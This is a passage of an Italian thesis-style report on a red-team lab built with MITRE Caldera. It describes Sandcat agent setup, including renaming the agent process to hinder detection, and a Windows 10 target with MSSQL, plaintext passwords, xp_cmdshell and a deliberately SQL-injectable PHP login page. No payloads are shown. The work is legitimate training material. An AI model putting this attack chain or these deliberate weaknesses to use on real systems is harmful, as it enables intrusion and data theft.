    
\includegraphics[width=\textwidth]{images/Caldera_home.png}
    \caption{Homepage di Caldera}
\end{figure}
\noindent
Come già spiegato, Caldera comunica come server C2 con dei software collegati in modo da decidere quali \textit{abilities} utilizzare durante le varie operazioni.\\
Una volta selezionato il software da configurare, è possibile decidere il tipo di architettura target e, successivamente, il framework genererà automaticamente degli scripts adatti alla piattaforma selezionata. All'interno della configurazione dell'agente, è possibile cambiare non solo il server con cui creare il contatto HTTP, ma addirittura il nome del processo che questi avrà all'interno del sistema bersaglio; quest'ultima feature permette di rendere la detection del suddetto agente molto più complicata per un membro del Blue Team.\\
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth, trim={0 1em 0 0}, clip]{images/Caldera_agentSetup.png}
    \caption{Configurazione Sandcat con Caldera}
\end{figure}

\noindent
Oltre allo script generato di default per il software selezionato, Caldera offre la possibilità di scegliere tra diverse variazioni per l'agente in questione. Ne esistono diverse e si invita il lettore ad esplorarle personalmente, di seguito è fornita una lista delle variazioni del software \texttt{Sandcat}.
\begin{itemize}
    \item Un agente distribuito come gruppo Blue Team invece di Red Team.
    \item Un agente compilato con una lista di estensione (richiede GoLang).
    \item Un agente distribuito come P2P con peers incluse durante la compilazione.
\end{itemize}
Una volta che lo script è stato generato, si presenta il problema del come inserirlo all'interno del sistema che si vuole corrompere; questa fase può essere realizzata in diversi modi. Nel caso descritto nelle pagine seguenti è stato fatto uso di una malconfigurazione delle query nel database, sfruttando una tecnica conosciuta come \textsc{SQL Injection}.\\ 
Completate le due fasi sopra descritte, l'agente comparirà nella sezione \textit{Agents} assieme alle sue caratteristiche: nome, PID, tipo di contatto, ecc...\\
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/Agent_INS.png}
    \caption{Caratteristiche dell'agente installato}
\end{figure}
\noindent
Da adesso è possibile avviare qualsiasi operazione si voglia, seguendo la serie di possibili profili \textit{Adversaries} offerti da Caldera, oppure creandone uno proprio seguendo i TTPs esplicitati in MITRE ATT\&CK.\\
Nella sezione \textit{Operations} del menù di Caldera, si ha la possibilità di creare ed avviare un'operazione di Red Teaming. Una volta preparata un \textit{operation} e selezionato l'avversario, nella schermata si potrà seguire l'esecuzione di ogni \textit{ability}. Per ogni step è possibile visualizzare una miniatura in cui sono raffigurati i comandi eseguiti, relativo output ed uno stato variabile tra:
    \begin{itemize}
        \item \textcolor{yellow}{Giallo}: L'attività corrente e in fase di esecuzione nel target.
        \item \textcolor{green}{Verde}: L'agente è riuscito a concludere l'\textit{ability} senza imprevisti.
        \item \textcolor{red}{Rosso}: L'attività non è andata a buon fine per qualche motivo (visionare l'output generato). 
        \item \textcolor{cyan}{Blu-verde}: È stato raggiunto il timeout per l'\textit{ability}.
    \end{itemize}
L'output può contenere un informazione (\textit{fact}) fondamentale al fine di continuare le \textit{abilities} successive. Per questo motivo, è importante selezionare con cura e sistematicamente l'ordine con cui andare ad eseguire ogni azione.
\begin{figure}[H]
    \centering
    
\includegraphics[width=\textwidth]{images/Caldera_Operation.png}
    \caption{Esempio di grafo di una operazione Caldera}
\end{figure}
Come si può notare dall'immagine, l'utente può decidere se stoppare in anticipo l'operazione o, semplicemente, metterla in pausa a causa di problemi che possono verificarsi. Inoltre, se si sta lavorando in uno scenario avente un numero considerevole di sistemi interconnessi sotto la stessa rete, il grafo raffigurato ha la possibilità di espandersi; in questo modo, si ha una visione completa degli agenti operativi.\\ 
Una volta scanditi tutti gli stadi dell'\textit{operation}, verrà generato un resoconto, contenente i log di ogni evento, da poter scaricare ed offrire agli amministratori della sicurezza dell'azienda.
\chapter{Presentazione Virtual Machines}
Prima ancora di iniziare a progettare la kill chain da seguire, bisogna rappresentare ed implementare il sistema target di questa esercitazione, su cui andranno realizzate le varie fasi dell'infiltrazione.\\
Partendo dal sistema operativo, la scelta ricade sicuramente su quello maggiormente diffuso ed utilizzato da parte degli utenti ed organizzazioni. Secondo i dati raccolti da StatCounter, Microsoft Windows vede una predominanza assoluta nel panorama degli OS sia aziendali sia personali; sebbene nel 2024 sia aumentato il numero di persone che hanno adottato la versione 11 uscita quattro anni fa, Windows 10 mantiene ancora il primato tra le edizioni in fatto di familiarità, standardizzazione aziendale e compatibilità con le applicazioni. Per quest'ultimo motivo, la maggior parte delle corporazioni adottano un approccio conservativo riguardo la propria infrastruttura, motivato anche dal rischio di un basso livello di compatibilità tra il sistema operativo e le proprie apparecchiature.\cite{os_usage}\\
Sicuramente il 2025 sarà un anno di grande cambiamento per le varie aziende vista la fine del supporto per Windows 10 ad ottobre di quest'anno; questo significa niente più patch di sicurezza o aggiornamenti di drivers, il che porterà a un'esposizione pericolosa dei dati nei sistemi ad eventuali nuovi \textit{threats} che si potranno materializzare dopo quella data. La richiesta di hardware più "potenti", in grado di sostenere le tecnologie di sicurezza implementate nella versione 11, mette in difficoltà non solo gli utenti ma soprattutto diverse organizzazioni, per i motivi sopra riportati.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.75\linewidth]{images/OS_usage.png}
    \caption{Utilizzo OS desktop - Maggio 2025}
\end{figure}
\newpage
\noindent
\begin{figure}[t]
    \centering
    
\includegraphics[width=0.75\linewidth]{images/Windows_usage.png}
    \caption{Utilizzo OS Windows - Maggio 2025}
\end{figure}
È intuitivo comprendere le motivazioni che hanno portato alla scelta del sistema operativo per la macchina; considerando la necessità di comprare componenti hardware nuovi e gli eventuali costi, si prospetta un 2026 con una grande disponibilità di infrastrutture obsolete vista l'incompatibilità dell'hardware con Windows 11, come descritto precedentemente.\\
Entrambe le macchine virtuali sono state realizzate tramite il software Oracle VirtualBox.\textsuperscript{TM}

\section{Windows VM\label{win}}
Presi in considerazione i vari dati estratti dalle analisi di mercato e dalla maggior parte degli utenti, nella macchina target è stato installato Windows 10 Pro con alcune configurazioni in più programmate in modo da rendere lo scenario abbastanza realistico.

    \subsection{Firewall}
    Rappresenta una delle numerose linee di difesa all'interno di un'organizzazione. In particolare, gestiscono il transito dell'attività web consentita e vietata all'interno di una rete privata, documentando il tutto tramite dei log di audit per fare riferimento a quanto è stato consentito o bloccato. Nel firewall della macchina virtuale sono state aggiunte delle regole in modo che l'host rispecchi un panorama possibile di sistema all'interno di un'infrastruttura privata. Di seguito la lista dei comandi eseguiti su Powershell per l'inserimento delle nuove connessioni consentite:\\

    \noindent
    \textsf{Connessioni HTTP dai server dell'enterprise}
    \begin{Verbatim}
    New-NetFirewallRule -DisplayName "HTTP_Proxy"
    -Direction Inbound -Action Allow -Protocol TCP -LocalPort 80
    -RemoteAddress *IP server organizzazione* -Profile Domain,Private
    \end{Verbatim}

    \noindent
    \textsf{Connessioni HTTPS da proxy server}
    \begin{Verbatim}
    New-NetFirewallRule -DisplayName "HTTPS_Proxy"
    -Direction Inbound -Action Allow -Protocol TCP -LocalPort 443
    -RemoteAddress *IP server organizzazione* -Profile Domain,Private
    \end{Verbatim}

    \noindent
    \textsf{MSSQL dal livello applicazione della subnet}
    \begin{Verbatim}
    New-NetFirewallRule -DisplayName "MSSQL_AppTier"
    -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1433
    -RemoteAddress *Subnet organizzazione* -Profile Domain,Private
    \end{Verbatim}

    \noindent
    \textsf{Ping solo da host monitorato}
    \begin{Verbatim}
    New-NetFirewallRule -DisplayName "ICMP_Monitor"
    -Direction Inbound -Action Allow -Protocol ICMPv4
    -IcmpType 8 -RemoteAddress *IP host sicuro* 
    -Profile Domain,Private      
    \end{Verbatim}

    L'insieme di queste regole è volutamente "semplice" essendo il focus del progetto più concentrato su Caldera e sull'emulazione dell'avversario.\\
    
    \subsection{Microsoft SQL Server 2019}
    Secondo dati raccolti semestralmente da SQL ConstantCare\textregistered\cite{mssql} nell'estate 2025, MSSQL 2019 si presenta ancora come un server altamente utilizzato tra le aziende globali, crescendo addirittura di qualche punto percentuale rispetto allo scorso semestre. Quindi, è considerata un'ottima scelta per un ambiente d'esercitazione. Per personalizzarla al meglio, ed essendo dati importanti per il futuro exploit che si andrà ad eseguire, ho creato il database vulnerabile chiamandolo "VulnUserDB" ed è stata creata una tabella \textit{Users} contenente i dati di possibili impiegati registrati all'interno dell'enterprise:
    \begin{enumerate}
        \item \texttt{id}: Codice identificativo di ogni dipendente.
        \item \texttt{username}: Nickname scelto all'interno del server.
        \item \texttt{password}: Chiave di accesso al server (volutamente non crittografato).
    \end{enumerate}
    L'utente target di questo attacco è ovviamente il \texttt{SA} (System Administrator), il quale ha pieno controllo su ogni impostazione del server; in particolare, è capace di cambiare una funzione disponibile all'interno di MSSQL che permette l'abilitazione di un terminale da cui poter avviare comandi Powershell: \texttt{xp\_cmdshell}.\\
    Viene da sé che questa feature rappresenta una risorsa molto pericolosa per chiunque sia in grado di ottenere le credenziali dell'Amministratore e connettersi in remoto: è un punto perfetto da cui iniziare un vettore d'attacco ed è la vulnerabilità utilizzata per piazzare l'agente all'interno della macchina. È possibile ampliare a piacimento non solo gli utenti autorizzati ad accedere al server e le loro autorizzazioni, ma anche creare database nuovi o aggiungere un numero arbitrario di tabelle con relativi dati.\\
    % Scrivi qualcosa in più in modo da riempire la pagina in bianco
    
    \subsection{Applicazione Web}
    \noindent
    \begin{figure}[H]
        \centering
        
\includegraphics[width=\textwidth]{images/web.png}
        \caption{Source code dell'applicazione web}
    \end{figure}
    Siccome la progettazione di una complessa applicazione web va al di fuori dell'ambito di questo tirocinio, è stato fatto uso di un software molto usato ancora oggi che permette la creazione e l'avvio di server web anche in locale, ossia \textsc{XAMPP}.\\
    Facendo uso dei linguaggi \textsc{PHP} ed \textsc{HTML} è stata creata una semplice pagina web da cui è possibile effettuare il login utilizzando le credenziali conservate nella tabella \textit{Users} sopra citata. Nella pagina successiva, a seconda del risultato del controllo sulla corrispondenza delle credenziali presentate, ho fatto in modo di restituire, in formato \texttt{.json}, i dati collezionati dalla query (risultano vuoti nel caso in cui essa sia vuota).
    Come si può notare dal codice sorgente, un exploit che salta subito all'occhio è la gestione della query da passare al server in cui è possibile bypassare il controllo della password o, addirittura, farsi restituire i dati salvati nel database attraverso la tecnica dell'SQL Injection sul database presente.\\[1.5em]

    \noindent
    {\bfseries\Large{SQL Injection}}\\[1em]
    Si può situare la nascita di questa vulnerabilità contemporanea all'inizio degli sviluppi di database relazionali, quindi nel lontano 1998. La maggior parte dei furti di dati è avvenuto principalmente a causa di questo tipo di exploit ed ancora oggi molte aziende non sono in grado di mitigarlo completamente.\\
    Per definizione, l'SQL Injection sfrutta il mancato controllo dell'input ed invia del codice malevolo per manipolare la query richiesta in modo da accedere a dati altrimenti inaccessibili, bypassare l'autenticazione ed entrare all'interno del server senza aver bisogno di fare brute force sulla password o, addirittura, cancellare dei dati presenti nel database. Esistono diversi tipi di SQLi:
    \begin{itemize}
        \item \textbf{Inband:} Il più comune e semplice da implementare, avviene quando l'attaccante è in grado di utilizzare lo stesso canale di comunicazione sia per lanciare l'attacco sia per ricevere i dati ricercati. Tra sottotipi di questo metodo abbiamo anche: error-based e union-based.
        \item \textbf{Blind:} L'attaccante è in grado di ricostruire la struttura del database grazie ai payload inviati ed osservando la risposta dell'applicazione web e il conseguente comportamento del server di database. Come esplicitato dal nome, l'attaccante non è in grado di visualizzare risultati provenienti da un attacco inband. Come sottotipi si hanno: boolean-based e time-based.
        \item \textbf{Out-of-band:} Meno diffusa rispetto altre per via del prerequisito di avere delle determinate funzioni all'interno del DB vittima. È l'opposto dell'SQLi inband e dipende dall'abilità del database di effettuare richieste DNS o HTTP per inviare dati all'attaccante.
    \end{itemize}
    Il primo tipo di SQLi è quello sfruttato in questo laboratorio, i prerequisiti sono stati soddisfatti in modo da rendere possibile l'injection inband.

    
\section{Ubuntu VM}
Per usufruire al meglio degli strumenti utilizzati principalmente dai Red Team durante l'esercitazione, il server Caldera è stato installato all'interno di una VM Ubuntu 25.04, seguendo gli step di configurazione presenti nel sito ufficiale del framework in cui è stato necessario installare componenti aggiuntivi molto semplici grazie all'Advanced Package Tool presente nei sistemi GNU\textbackslash Linux.
\begin{itemize}
    \item \texttt{sudo apt install nodejs}
    \item \texttt{sudo apt install golang}
    \item (Opzionale, ma consigliato) Utilizzare Google Chrome.
\end{itemize}
